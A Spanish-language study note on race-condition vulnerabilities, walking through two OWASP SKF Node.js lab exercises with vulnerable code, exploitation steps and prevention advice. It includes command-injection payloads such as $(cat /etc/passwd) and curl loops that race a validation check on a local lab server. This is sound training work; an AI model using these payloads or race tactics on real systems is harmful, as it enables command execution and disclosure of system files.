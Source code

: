 
# 🏃‍♂️ **Race Condition (Condición de Carrera)**

---

## 🧠 **Parte Teórica**

Una **Race Condition** es una vulnerabilidad que ocurre cuando un sistema realiza múltiples operaciones al mismo tiempo y el comportamiento del sistema depende del orden de ejecución. Si no se gestiona correctamente, puede permitir que un atacante explote ese pequeño intervalo para manipular resultados o acceder a datos que normalmente no debería ver.

### ⚠️ ¿Por qué es peligrosa?

Cuando un recurso (como un archivo) es accedido por múltiples procesos a la vez, puede ocurrir que:

- Se lea un archivo **antes** de que se verifique su contenido.
    
- Dos usuarios escriban en el mismo archivo **simultáneamente**, sobrescribiéndose o accediendo a la información del otro.
    

---

# 🔬 Parte Práctica

---

## 🔧 **Lab 1: Condición de Carrera en ejecución de comandos**

Repositorio: `skf-labs/nodeJs/RaceCondition`

---

### 🔌 **Configuración Inicial**

```bash
cd skf-labs/nodeJs/RaceCondition
npm install       # usar --force si hay errores
npm start
```

> El servidor escuchará por el puerto **5000**

![[Pasted image 20250725225135.png]]

![[Pasted image 20250725230716.png]]

---

### 🔍 **Análisis del código (`app.js`)**

En el código fuente se ve una función que:

- **Escribe un archivo `.sh`** con un `echo` del nombre ingresado por el usuario.
    
- **Ejecuta** ese archivo.
    
- **Lee** el archivo `hello.txt` con el resultado.
    
- **Valida** que no haya inyección usando un filtro por `sed`.
    

```js
fs.writeFileSync("hello.sh", 'echo "' + person + '" > hello.txt');
exec("bash hello.sh");
return execSync("sed -n '/^echo \"[A-Za-z0-9 ]*\" > hello.txt$/p' hello.sh").toString();
```

La **condición de carrera** se encuentra entre estas dos líneas:

```js
exec("bash hello.sh");     // Ejecuta el script (con posible comando malicioso)
return valid();            // Valida si el script es limpio
```

⏱️ Entre ese **minúsculo intervalo** de tiempo, se puede leer el contenido antes de que sea validado y eliminado.

---

### 🧪 **Explotación desde el navegador**

El input visible desde la app nos permite insertar el nombre:

![[Pasted image 20250725234847.png]]

Podemos inyectar código como:

```
$(whoami)
```

Sin embargo, si usamos comandos como `$(cat /etc/passwd)` **la validación los filtra**. Pero, si actuamos justo **antes** de esa validación, podemos capturar el resultado.

---

### 🎯 **Estrategia de explotación**

#### 1. **Escucha del archivo `hello.txt`** desde el host:

```bash
while true; do cat hello.txt; done
```

#### 2. **Desde la web (cliente)**, ya que no tenemos acceso directo al archivo, podemos usar:

```bash
while true; do curl -s 'http://localhost:5000/?action=run' | grep "Check this out" | html2text | grep -v "Default User"; echo; done
```

> Esto filtra solo los resultados personalizados y no los por defecto.

---

### 🤖 **Automatización del ataque (fuzzing)**

Simultáneamente, vamos lanzando múltiples peticiones con comandos codificados:

```bash
while true; do curl -s 'http://localhost:5000/?person=%24%28cat+%2Fetc%2Fpasswd%29&action=validate'; echo; done
```

> `%24%28...%29` es `$(...)` en URL encoding.

---

![[Pasted image 20250726002322.png]]

🧨 Como ves en la imagen, el script superior escucha y el inferior hace fuerza bruta. En uno de los intentos, logramos ver el archivo `/etc/passwd`.

---

## 💾 **Lab 2: Condición de carrera en escritura de archivo**

Repositorio: `skf-labs/nodeJs/RaceCondition-file-write`

---

### ⚙️ **Preparación del entorno**

```bash
cd nodeJs/RaceCondition-file-write
npm install
npm start
```

![[Pasted image 20250726020133.png]]

Desde la web, te sugiere que navegues a una ruta como:

```
http://localhost:5000/ejemplo
```

Esto descargará un archivo `.txt` con el texto `"ejemplo"`.

---

### 🔍 **Análisis del código (`app.js`)**

```js
fs.writeFileSync("shared-file.txt", req.params.value); // 1. Crea archivo con texto del usuario
fs.open("shared-file.txt", "r", (err, fd) => {
  let file = fs.readFileSync("shared-file.txt", "utf8");
  res.sendFile(__dirname + "/shared-file.txt");         // 2. Envía archivo al cliente
});
```

---

### ⚠️ **Dónde está la vulnerabilidad**

Aquí también hay una condición de carrera:

```js
fs.writeFileSync("shared-file.txt", req.params.value);  // Escritura
// 🔥 Entre esta línea y la siguiente, hay una ventana de oportunidad
fs.open("shared-file.txt", "r", (err, fd) => {...});     // Lectura y descarga
```

📎 Si **dos usuarios** acceden al mismo tiempo, es posible que uno descargue el contenido del otro.

---

### 💡 **Idea de explotación**

Aunque este caso no requiere [[bypass]] de validaciones, puede generar **filtraciones de datos sensibles o errores lógicos**, sobre todo si se tratara de contenido como tokens, claves temporales o archivos generados dinámicamente.

---

## 🔒 **¿Cómo prevenir Race Conditions?**

- **Sincronizar operaciones** con _locks_ o semáforos.
    
- Validar y ejecutar operaciones de forma **atómica**.
    
- Evitar usar archivos temporales compartidos por múltiples usuarios.
    
- Implementar una cola de tareas para evitar acceso simultáneo a recursos críticos.
    

---

## 📚 Referencias

- [[OWASP]] Race Condition: [https://owasp.org/www-community/attacks/Race_condition](https://owasp.org/www-community/attacks/Race_condition)
    
- Node.js Docs: [fs module](https://nodejs.org/api/fs.html)
    

